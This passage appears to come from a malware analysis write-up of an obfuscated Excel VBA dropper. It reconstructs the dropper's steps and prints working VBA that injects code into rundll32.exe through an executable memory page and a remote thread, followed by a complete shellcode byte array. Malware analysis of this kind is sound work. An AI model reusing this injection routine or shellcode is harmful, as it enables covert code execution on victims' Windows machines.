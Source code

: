 The logic of the new script is:

- first disable the "Trust access for VBA" in Excel
- create *another* Excel workbook
- inject some payload
- disable the alerts
- run the injected code
- close Excel while keeping the workbook running
- restore the Windows registry

And the new payload is another weird string:

```
"Private "&"Type PRO"&"CESS_INF"&"ORMATION"&Chr(10)&"    hPro"&"cess As "&"Long"&Chr(10)&"    hThr"&"ead As L"&"ong"&Chr(10)...
```

It's just a fragmented string with characters expressed as ASCII numbers.

The syntax is very close to a Python string, with a few adjustements we get
the full picture.

It is a VBA script which performs a PE injection on "rundll32.exe":

```vba
If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
```

## Debugging the shellcode

"rundll32.exe" is meant to execute the following shellcode:

```vba
myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
```
